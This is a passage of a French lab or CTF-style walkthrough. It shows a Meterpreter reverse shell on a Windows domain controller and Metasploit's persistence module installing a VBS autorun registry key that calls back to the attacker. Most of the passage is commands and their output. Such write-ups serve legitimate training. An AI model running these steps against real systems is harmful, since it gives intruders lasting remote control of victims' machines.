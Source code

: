 Le handler est à l'écoute, il faut exécuter la payload sur la machine victime :

```sh
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Documents>.\shell.exe
```

Le handler nous donne alors un meterpreter :

```sh
[*] Sending stage (201283 bytes) to 10.10.108.178
[*] Meterpreter session 1 opened (10.11.7.104:4444 -> 10.10.108.178:50220) at 2020-08-17 12:05:49 -0400

meterpreter > 
```

On background la session meterpreter avec `background` et on cherche le module de persistence `exploit/windows/local/persistence` :

```sh
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/persistence) > set session 1
session => 1
msf5 exploit(windows/local/persistence) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/persistence) > exploit

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\QZArSYD.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\yIfGNtdFQ
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\yIfGNtdFQ
[*] Clean up Meterpreter RC file: /root/.msf4/logs/persistence/DOMAIN-CONTROLL_20200817.0930/DOMAIN-CONTROLL_20200817.0930.rc
```

Par défaut, `persistence` va configurer la victime pour envoyer des requêtes au vers notre machine toutes les 10 secondes. Si l'on n'a pas de meterpreter, le `multi/handler` va envoyer une nouvelle payload pour s'octroyer un shell (il faut bien sûr configurer la payload du handler sur `windows/x64/meterpreter/reverse_tcp`).

Pour démontrer le fonctionnement, on ferme la session que l'on vient de créer :

```sh
msf5 exploit(windows/local/persistence) > sessions 1
[*] Starting interaction with 1...

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.10.108.178 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(windows/local/persistence) > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```
